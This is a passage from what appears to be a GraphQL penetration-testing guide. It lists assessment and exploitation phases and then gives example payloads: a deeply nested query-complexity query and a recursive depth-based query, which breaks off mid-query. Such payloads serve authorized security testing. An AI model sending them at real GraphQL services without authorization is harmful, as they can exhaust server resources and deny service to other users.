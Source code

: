 ### Phase 2: Vulnerability Assessment
1. Test query complexity attacks
2. Test depth-based attacks
3. Test introspection vulnerabilities
4. Test authorization bypass

### Phase 3: Exploitation
1. Attempt GraphQL attacks
2. Document findings
3. Test impact and scope
4. Report vulnerabilities

---

## Common Payloads

### Query Complexity Payloads
```graphql
query {
  users {
    id
    name
    email
    posts {
      id
      title
      content
      comments {
        id
        text
        author {
          id
          name
          email
        }
      }
    }
  }
}
```

### Depth-based Payloads
```graphql
query {
  user {
    posts {
      author {
        posts {
          author {
            posts {
              author {
                posts {
                  author {
                    name
                  }
                }
              }
            }
          }
        }
      }
    }
```